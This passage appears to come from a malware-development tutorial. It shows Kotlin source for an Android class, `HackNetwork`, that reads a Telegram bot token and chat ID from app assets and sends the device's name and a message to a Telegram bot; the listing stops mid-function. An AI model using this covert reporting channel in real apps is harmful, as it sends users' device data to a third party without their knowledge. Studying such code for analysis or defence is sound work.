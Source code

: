 
So, the full source code of this logic is looks like this (`HackNetwork`):    

```kotlin
package cocomelonc.hack

import android.content.Context
import android.os.Build
import okhttp3.Call
import okhttp3.Callback
import okhttp3.FormBody
import okhttp3.OkHttpClient
import okhttp3.Request
import okhttp3.Response
import java.io.IOException

class HackNetwork(private val context: Context) {

    private val client = OkHttpClient()

    // function to send message using OkHttp
    fun sendTextMessage(message: String) {
        val token = getTokenFromAssets()
        val chatId = getChatIdFromAssets()
        val deviceInfo = getDeviceName()
        val meow = "Meow! ♥️\uFE0F"
        val messageToSend = "$message\n\n$deviceInfo\n\n$meow\n\n"

        val requestBody = FormBody.Builder()
            .add("chat_id", chatId)
            .add("text", messageToSend)
            .build()

        val request = Request.Builder()
            .url("https://api.telegram.org/bot$token/sendMessage")
            .post(requestBody)
            .build()

        // send the request asynchronously using OkHttp
        client.newCall(request).enqueue(object : Callback {
            override fun onFailure(call: Call, e: IOException) {
                e.printStackTrace()
            }

            override fun onResponse(call: Call, response: Response) {
                if (response.isSuccessful) {
                    // Handle success
                    println("Message sent successfully: ${response.body?.string()}")
                } else {
                    println("Error: ${response.body?.string()}")
                }
            }
        })
    }

    // get device info
    private fun getDeviceName(): String {
        fun capitalize(s: String?): String {
            if (s.isNullOrEmpty()) {
                return ""
            }
            val first = s[0]
            return if (Character.isUpperCase(first)) {
                s
            } else {
```